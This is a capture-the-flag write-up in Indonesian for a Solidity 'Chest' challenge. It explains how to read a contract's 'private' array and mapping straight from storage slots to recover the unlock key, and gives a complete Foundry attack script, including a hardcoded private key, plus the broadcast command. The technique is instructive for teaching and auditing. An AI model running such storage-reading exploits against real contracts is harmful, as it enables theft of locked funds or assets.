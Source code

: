 # Solution
Goal dari challenge ini adalah mengganti `locked` menjadi `false`  menggunakan `unlock()` dengan memberikan kunci yang benar. Kunci tersebut terkonstruksi dari kompinasi yang tersimpan di state variable `combinations` yang merupakan dynamic array dengan visibility `private` jadi kita tidak bisa mendapatkan nilai tersebut secara langsung dengan memanggil variablenya. Untuk state variable di smart contract itu disimpan pada contract storage dan untuk dynamic array dan mappings tersimpan menggunakan slot yang unik dengan rumus sebagai berikut:
`array` : 
```sol
bytes32(uint256(keccak256(abi.encode(uint256(slot)))) + index)
```
`mappings`:
```sol
bytes32(uint256(keccak256(abi.encode(key, uint256(slot)))))
```
Array `combinations` tersimpan di slot 0 menurut urutan di state variable dan mappings `golden_key` terdapat pada slot 1 
Untuk mendapatkan key dari mappingnya dapat menggunakan dikonstruksi menggunakan nilai-nilai dari `combinations`:
```sol
address(uint160(combination1 >> 86 | combination2))
```
Kemudian tinggal panggil `unlock()` dengan kunci yang diperoleh sebagai argumen.
Berikut script foundry untuk solve challenge ini:
`ChestHack.s.sol`:
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "forge-std/Script.sol";
import "forge-std/console2.sol";

interface Setup {
    function TARGET() external view returns (Chest);
}

interface Chest {
    function unlock(uint256 _key) external;
}

contract Solve is Script {
    Chest target;
    Setup setup = Setup(0x9fE46736679d2D9a65F0992F2272dE9f3c7fa6e0); // Setup address
    address player;

    function setUp() external payable {
        // Private key
        player = vm.addr(
            0x59c6995e998f97a5a0044966f0945389dc9e86dae88c7a8412f4603b6b78690d
        );
        vm.startBroadcast(player);
    }

    function run() external {
        target = Chest(setup.TARGET());
        bytes32 startSlot = keccak256(abi.encode(uint256(0)));
        uint256 combination1 = uint256(
            vm.load(address(target), bytes32(uint256(startSlot)))
        );
        uint256 combination2 = uint256(
            vm.load(address(target), bytes32(uint256(startSlot) + 1))
        );

        console2.log("Combination 1: ", combination1);
        console2.log("Combination 2: ", combination2);
        address key = address(uint160((combination1 >> 86) | combination2));
        bytes32 slotKey = keccak256(abi.encode(key, uint256(1)));
        uint256 golden_key = uint256(vm.load(address(target), slotKey));
        console2.log("Golden key: ", golden_key);
        target.unlock(golden_key);

        vm.stopBroadcast();
    }
}
```
```bash
forge script script/ChestHack.s.sol:Solve --broadcast --rpc-url <RPC_URL> --private-key <PRIVATE_KEY> 
```
